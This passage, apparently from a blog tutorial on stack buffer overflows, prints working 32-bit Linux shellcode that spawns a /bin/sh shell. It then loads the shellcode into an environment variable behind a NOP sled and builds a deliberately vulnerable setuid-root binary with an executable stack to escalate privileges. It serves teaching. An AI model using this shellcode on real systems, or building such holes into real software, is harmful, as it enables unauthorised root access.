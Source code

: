 ```
\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80
```

Let's have a look at it in hex:

```bash
(32)test@trout:$ hexdump -C shellcode.bin
00000000  31 c0 31 db 31 c9 99 b0  a4 cd 80 6a 0b 58 51 68  |1.1.1......j.XQh|
00000010  2f 2f 73 68 68 2f 62 69  6e 89 e3 51 89 e2 53 89  |//shh/bin..Q..S.|
00000020  e1 cd 80 0a                                       |....|
00000024
```

And let's get it into an environment variable `SHELLCODE`, prepended with a generous [NOP sled]:

```bash
(32)test@trout:$ export SHELLCODE=$(perl -e 'print "\x90"x200')$(cat shellcode.bin)
(32)test@trout:$ echo $SHELLCODE
111ə̀j
     XQh//shh/binQS
```

> Why did I put the shellcode into an environment variable?
>
> This was necessary because the vulnerable buffer in this contrived example is only 10 bytes in size, which is nowhere near large enough to hold the exploit (35 bytes) and a NOP sled.  If the buffer was larger, we could possibly do the exploit without putting an env var on the stack.

And now we'll compile (ensuring the stack is executable), afterwards changing back to `root` temporarily to change the owner and permissions (including setting the `setuid` bit to make the privilege escalation hack possible).

```bash
(32)test@trout:$ gcc -o cat_pictures -ggdb3 -z execstack cat_pictures.c
(32)test@trout:$ exit
(32)root@trout:# chown root cat_pictures
(32)root@trout:# chmod 4550 cat_pictures
(32)root@trout:# su test
(32)test@trout:$ ls -l cat_pictures
-r-sr-x--- 1 root test 27960 Apr 18 02:52 cat_pictures
```

Ok, the binary looks good.

Again, the exploit won't work as intended without setting the `setuid` bit, which will escalate privileges and spawn a root shell when run.  Without setting the `setuid`, we'd still spawn a shell, but it would be as the user `test`, with the same privileges as we already have.  Boring!

### Determining the Address

After having injected our payload into the `SHELLCODE` environment variable, we need to determine its memory address on the stack.  This can be done in a couple of ways.

1. Use the [`getenv`] C standard library function to get the memory of any env var.

	`getenv.c`


[Stack smashing]: https://en.wikipedia.org/wiki/Stack_buffer_overflow
[Part one]: /2019/04/09/on-stack-smashing-part-one/
[`setuid`]: https://en.wikipedia.org/wiki/Setuid
[`-fno-stack-protector`]: https://stackoverflow.com/questions/10712972/what-is-the-use-of-fno-stack-protector
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[machine code]: https://en.wikipedia.org/wiki/Machine_code
[NOP sled]: https://en.wikipedia.org/wiki/NOP_slide
[`getenv`]: http://man7.org/linux/man-pages/man3/getenv.3.html